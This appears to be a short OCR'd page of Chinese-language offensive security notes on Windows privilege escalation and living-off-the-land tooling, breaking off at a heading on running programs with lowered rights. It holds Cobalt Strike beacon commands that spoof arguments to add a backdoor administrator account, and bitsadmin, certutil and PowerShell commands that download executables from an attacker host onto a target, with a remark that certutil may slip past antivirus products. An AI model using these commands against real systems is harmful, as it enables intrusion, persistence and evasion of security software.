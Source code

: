 
###### 常见提权

1. 查看目标服务器上的打的补丁，看看哪些可以使用poc打



参数污染执行命令

```
beacon> argue net1 /bypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypass
beacon> run net1 user what t1!@##1dsdfq3 /add
beacon> run net1 localgroup administrators what /add
```


## LOL


###### bitsadmin

系统要求 >= Windows Vista
bitsadmin /transfer down /download /priority normal "http://www.xxx.com/xxx.exe" "F:\1.exe"


###### certutil

建议先执行一遍 certutil,再执行下方命令(可能可以绕火绒、360等杀软)
certutil -urlcache -split -f http://www.xxx.com/xxx.exe 1.exe


###### powershell

同样,攻击机起http服务
```powershell-download
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://kali-ip/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行powershell-download中的命令,会生成wget.ps1
目标机执行:
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1





###### 远程下载

certutil 还可用于从互联网下载文件。

```
certutil.exe -urlcache -split -f http://example.com/a.txt
```




###### 程序降权启动方法

第一种：runas
